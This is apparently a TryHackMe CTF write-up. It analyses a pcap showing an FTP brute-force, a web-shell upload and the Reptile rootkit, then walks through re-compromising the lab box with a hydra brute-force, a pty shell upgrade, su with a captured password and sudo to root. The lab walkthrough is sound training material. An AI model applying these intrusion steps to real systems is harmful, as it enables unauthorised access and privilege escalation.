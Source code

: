```yaml
---
image: /assets/img/hacked/hacked.png
layout: post
title: H4cked
date: 2021-03-26 00:00:01 +5:30
categories: [Tryhackme, Easy]
tags: [] # add tag
---
```



## Walkthrough

### TASK I (Analysing the pcap)

Loaded the pcap in wireshark and started by following the tcp stream

![PCAP1](/assets/img/hacked/pcap1.png)

The attacker was bruteforcing FTP might be using hydra.<br />

![PCAP2](/assets/img/hacked/pcap2.png)
They got successful login into ftp

![PCAP3](/assets/img/hacked/pcap3.png)
By Analysing the action it seems the attacker uploaded a shell in web directory and got remote access.

Then it seems they uploaded a rootkit named reptile to maintain access.

### TASK II (Hack Again)

Again let's start by attacking ftp using hydra.
![hacked1](/assets/img/hacked/hacked1.png)

Changing the IP

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@wir3:/$ ls -la
ls -la
total 1529952
drwxr-xr-x  22 root root       4096 Feb  2 10:28 .
drwxr-xr-x  22 root root       4096 Feb  2 10:28 ..
drwxr-xr-x   2 root root       4096 Feb  1 20:11 bin
drwxr-xr-x   3 root root       4096 Feb  1 20:15 boot
drwxr-xr-x  17 root root       3700 Mar 26 04:16 dev
drwxr-xr-x  94 root root       4096 Feb  2 10:52 etc
drwxr-xr-x   3 root root       4096 Feb  1 20:05 home
lrwxrwxrwx   1 root root         34 Feb  1 19:52 initrd.img -> boot/initrd.img-4.15.0-135-generic
lrwxrwxrwx   1 root root         33 Jul 25  2018 initrd.img.old -> boot/initrd.img-4.15.0-29-generic
drwxr-xr-x  22 root root       4096 Feb  1 22:06 lib
drwxr-xr-x   2 root root       4096 Feb  1 20:08 lib64
drwx------   2 root root      16384 Feb  1 19:49 lost+found
drwxr-xr-x   2 root root       4096 Jul 25  2018 media
drwxr-xr-x   2 root root       4096 Jul 25  2018 mnt
drwxr-xr-x   2 root root       4096 Jul 25  2018 opt
dr-xr-xr-x 110 root root          0 Mar 26 04:15 proc
drwx------   3 root root       4096 Feb  2 10:23 root
drwxr-xr-x  27 root root        840 Mar 26 04:21 run
drwxr-xr-x   2 root root      12288 Feb  1 20:11 sbin
drwxr-xr-x   3 root root       4096 Feb  1 20:07 srv
-rw-------   1 root root 1566572544 Feb  1 19:52 swap.img
dr-xr-xr-x  13 root root          0 Mar 26 04:16 sys
drwxrwxrwt   2 root root       4096 Mar 26 04:17 tmp
drwxr-xr-x  10 root root       4096 Jul 25  2018 usr
drwxr-xr-x  13 root root       4096 Feb  2 10:28 var
lrwxrwxrwx   1 root root         31 Feb  1 19:52 vmlinuz -> boot/vmlinuz-4.15.0-135-generic
lrwxrwxrwx   1 root root         30 Jul 25  2018 vmlinuz.old -> boot/vmlinuz-4.15.0-29-generic
www-data@wir3:/$ sudo -l
sudo -l
[sudo] password for www-data:





Sorry, try again.
[sudo] password for www-data:
Sorry, try again.
[sudo] password for www-data:

sudo: 3 incorrect password attempts
www-data@wir3:/$ su jenny
su jenny
Password: 987654321

jenny@wir3:/$ sudo -l
sudo -l
[sudo] password for jenny: 987654321

Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
jenny@wir3:/$ sudo -i
sudo -i
root@wir3:~# ls
ls
Reptile
root@wir3:~# ls -la
ls -la
total 20
drwx------  3 root root 4096 Feb  2 10:23 .
drwxr-xr-x 22 root root 4096 Feb  2 10:28 ..
lrwxrwxrwx  1 root root    9 Feb  2 10:20 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  7 root root 4096 Feb  2 10:23 Reptile
root@wir3:~# cd Re
cd Reptile/
root@wir3:~/Reptile# ls
ls
configs   Kconfig  Makefile  README.md  userland
flag.txt  kernel   output    scripts
```
